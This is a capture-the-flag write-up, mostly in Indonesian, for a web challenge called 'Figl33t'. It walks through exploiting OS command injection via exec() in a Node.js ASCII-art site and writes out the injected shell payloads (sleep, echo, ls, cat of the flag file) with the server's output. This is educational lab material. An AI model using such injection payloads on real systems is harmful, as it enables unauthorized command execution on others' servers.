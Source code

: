# Figl33t
My friend really likes ascii art. So I created this website for her.

## Solution
Kita bisa liat dari source code yang di kasih, terdapat fungsi exec() yang dapat digunakan untuk menjalankan kode yang dihasilkan secara dinamis.
Saya mencoba menggunakan Tools yang bernama OWASP ZAP untuk mendapatkan informasi dari website ctf tersebut, ternyata dari hasil scanning OWASP terdapat alert yang menjadi sorotan bagi saya, ternyata benar saat melakukan POST data menggunakan '& sleep 15 &' saya mengingatkan methode OS Command Injection.
![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/scanning.png)
Saya mencoba untuk melakukan exploit dengan menggubah payloadnya
Payload: ```'& sleep 15 &' >> '; echo hello world'```
Response:
```hello world```
![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/figl33t/hello%20world.png)
Setelah berhasil melakukan echo string kita coba melakukan listing directory untuk melihat isi folder dalam server.
Payload: ```'; ls -la'```
Response:
```
/app
total 80
drwxr-xr-x  1 root root  4096 Jun 10 16:22 .
drwxr-xr-x  1 root root  4096 Jun 10 16:22 ..
-rw-r--r--  1 root root    13 Jun 10 16:02 .dockerignore
-rw-r--r--  1 root root   394 Jun 10 16:22 Dockerfile
-rw-r--r--  1 root root   673 Jun 10 16:22 app.js
drwxr-xr-x 60 root root  4096 Jun 10 16:22 node_modules
-rw-r--r--  2 root root 40385 Jun 10 16:22 package-lock.json
-rw-r--r--  1 root root   286 Jun 10 16:02 package.json
drwxr-xr-x  2 root root  4096 Jun 10 16:02 public
```
Ternyata tidak ada file FLAG dalam folder /app jadi coba kita mundur satu langkah
Payload: ```'; ls / -la'```
Response:
```
total 104
drwxr-xr-x    1 root root 4096 Jun 10 16:22 .
drwxr-xr-x    1 root root 4096 Jun 10 16:22 ..
-rwxr-xr-x    1 root root    0 Jun 10 16:22 .dockerenv
drwxr-xr-x    1 root root 4096 Jun 10 16:22 app
drwxr-xr-x    1 root root 4096 May 23 01:49 bin
drwxr-xr-x    2 root root 4096 Apr  2 11:55 boot
drwxr-xr-x    5 root root  320 Jun 10 16:23 dev
drwxr-xr-x    1 root root 4096 Jun 10 16:22 etc
-rw-r--r--    2 root root   41 Jun 10 16:02 flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt
drwxr-xr-x    1 root root 4096 May 23 09:00 home
drwxr-xr-x    1 root root 4096 May 23 01:49 lib
drwxr-xr-x    2 root root 4096 May 22 00:00 lib64
drwxr-xr-x    2 root root 4096 May 22 00:00 media
drwxr-xr-x    2 root root 4096 May 22 00:00 mnt
drwxr-xr-x    1 root root 4096 May 23 09:03 opt
dr-xr-xr-x 2311 root root    0 Jun 10 16:23 proc
drwx------    1 root root 4096 May 23 09:03 root
drwxr-xr-x    3 root root 4096 May 22 00:00 run
drwxr-xr-x    1 root root 4096 May 23 01:48 sbin
drwxr-xr-x    2 root root 4096 May 22 00:00 srv
dr-xr-xr-x   13 root root    0 Apr 11  2018 sys
drwxrwxrwt    1 root root 4096 Jun 10 16:22 tmp
drwxr-xr-x    1 root root 4096 May 22 00:00 usr
drwxr-xr-x    1 root root 4096 May 22 00:00 var
```
and BOOM ada file bernama flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt jika sudah ketemu yasudah langsung kita eksekusi nunggu apa lagii?
Payload: ```'; cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt'```
Response:
```ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}```
![Screenshot](https://media.tenor.com/47GfMCfGemwAAAAC/pepe-the-frog-pepe.gif)

